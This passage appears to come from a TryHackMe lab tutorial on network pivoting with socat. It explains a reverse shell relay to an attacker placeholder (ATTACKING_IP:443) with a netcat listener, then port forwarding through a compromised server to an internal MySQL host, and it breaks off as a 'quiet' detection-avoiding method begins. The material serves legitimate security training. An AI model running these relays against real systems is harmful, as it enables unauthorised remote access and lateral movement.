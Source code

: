 **Reverse Shell Relay**

In this scenario we are using socat to create a relay for us to send a reverse shell back to our own attacking machine (as in the diagram above). First let's start a standard netcat listener on our attacking box (`sudo nc -lvnp 443`). Next, on the compromised server, use the following command to start the relay:  
`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &   `

_**Note:** the order of the two addresses matters here. Make sure to open the listening port first,_ then _connect back to the attacking machine._  

From here we can then create a reverse shell to the newly opened port 8000 on the compromised server. This is demonstrated in the following screenshot, using netcat on the remote server to simulate receiving a reverse shell from the target server:

![Demonstration of a socat reverse shell relay from the compromised target to the attacking machine using netcat to simulate sending a shell](https://assets.tryhackme.com/additional/wreath-network/e8740afb79ab.png)

A brief explanation of the above command:

- `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

The relay connects back to a listener started using an alias to a standard netcat listener: `sudo nc -lvnp 443`.  

In this way we can set up a relay to send reverse shells through a compromised system, back to our own attacking machine. This technique can also be chained quite easily; however, in many cases it may be easier to just upload a static copy of netcat to receive your reverse shell directly on the compromised server.

---

**Port Forwarding -- Easy**

![](https://assets.tryhackme.com/additional/wreath-network/YzM2ZWVlOGU5.png)The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server. For example, if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:  
`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &   `

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10. The `fork` option is used to put every connection into a new process, and the `reuseaddr` option means that the port stays open after a connection is made to it. Combined, they allow us to use the same port forward for more than one connection. Once again we use `&` to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.

We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.

---

**Port Forwarding -- Quiet**

The previous technique is quick and easy, but it also opens up a port on the compromised server, which could potentially be spotted by any kind of host or network scanning. Whilst the risk is not _massive_, it pays to know a slightly quieter method of port forwarding with socat. This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.
